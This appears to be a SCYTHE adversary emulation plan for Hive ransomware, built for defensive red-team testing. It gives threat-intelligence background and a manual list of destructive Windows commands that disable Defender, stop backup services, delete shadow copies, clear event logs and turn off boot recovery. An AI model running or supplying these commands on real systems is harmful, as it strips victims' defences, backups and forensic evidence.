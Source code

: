 # Hive Ransomware Adversary Emulation Plan

This threat is based on the FBI Flash Alert on August 25,2021: https://www.ic3.gov/Media/News/2021/210825.pdf

## Summary from Cyber Threat Intelligence
Hive ransomware, which was first observed in June 2021 and likely operates as an affiliate-based ransomware, employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. Hive ransomware uses multiple mechanisms to compromise business networks, including phishing emails with malicious attachments to gain access and Remote Desktop Protocol (RDP) to move laterally once on the network.

After compromising a victim network, Hive ransomware actors exfiltrate data and encrypt files on the network. The actors leave a ransom note in each affected directory within a victim’s system, which provides instructions on how to purchase the decryption software. The ransom note also threatens to leak exfiltrated victim data on the Tor site, “HiveLeaks.”

## Emulate with SCYTHE
**Please note that this threat, if executed with administrative privileges, will disable services, delete Volume Shadow Copies, delete Windows Event Logs, and modify bootup procedures. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot.

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Hive
4. Create a new campaign, selecting HTTPS, and configure your HTTPS communication options.
5. Import from Existing Threat: Hive
6. Launch Campaign
7. Download the EXE and rename it to Winlo_dump_64_SCY.exe

## Emulate Manually
Open an elevated command line interface and run:
- powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
- sc stop LanmanWorkstation
- sc stop SamSs
- sc stop SDRSVC
- sc stop SstpSVc
- sc stop UI0Detect
- sc stop Vmicvss
- sc stop Vmss
- sc stop VSS
- sc stop Wbengine
- sc stop Unistoresvc
- wmic.exe SHADOWCOPY /nointeractive
- wmic.exe shadowcopy delete
- wevtutil.exe cl system
- wevtutil.exe cl security
- wevtutil.exe cl application
- bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
- bcdedit.exe /set {default} recoveryenabled norun
